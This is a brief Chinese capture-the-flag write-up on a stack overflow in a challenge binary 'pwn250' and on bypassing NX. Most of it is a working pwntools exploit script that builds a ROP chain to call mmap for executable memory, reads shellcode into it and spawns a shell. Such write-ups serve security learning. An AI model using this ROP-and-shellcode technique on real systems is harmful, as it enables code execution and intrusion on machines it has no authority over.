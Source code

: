 print中memcpy导致栈溢出

![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/2.png)

![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/3.png)

思路：调用mmap申请一块有rwx权限的内存，往里面写shellcode，最终返回到shellcode上

exp

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mmap_addr = elf.sym['mmap']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
newaddr=0xbeef1000

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mmap_addr)+p32(main_addr)+p32(newaddr)+p32(1024)+p32(7)+p32(34)+p32(0)+p32(0)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(newaddr)+p32(0)+p32(newaddr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```

